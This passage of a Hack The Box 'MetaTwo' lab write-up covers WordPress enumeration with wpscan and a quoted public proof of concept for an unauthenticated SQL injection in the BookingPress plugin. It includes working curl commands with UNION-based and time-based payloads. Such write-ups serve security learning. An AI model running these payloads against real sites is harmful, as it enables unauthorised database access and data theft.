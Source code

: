 Running wpscan with:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ wpscan --url http://metapress.htb --enumerate vp,u,vt,tt
```

We locate two users, admin and manager:

![htb_metatwo_manager.png](../assets/metatwo_assets/htb_metatwo_manager.png)

Looking at the page source of http://metapress.htb/events/ we see that the plugin bookingpress is being used:

![htb_metatwo_plugin.png](../assets/metatwo_assets/htb_metatwo_plugin.png)

Looking for exploits I find: https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/

Which lays out a nice POC to exploit this:

"The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection"

```
- Create a new "category" and associate it with a new "service" via the BookingPress admin menu (/wp-admin/admin.php?page=bookingpress_services)
- Create a new page with the "[bookingpress_form]" shortcode embedded (the "BookingPress Step-by-step Wizard Form")
- Visit the just created page as an unauthenticated user and extract the "nonce" (view source -> search for "action:'bookingpress_front_get_category_services'")
- Invoke the following curl command

curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'

Time based payload:  curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH'
```
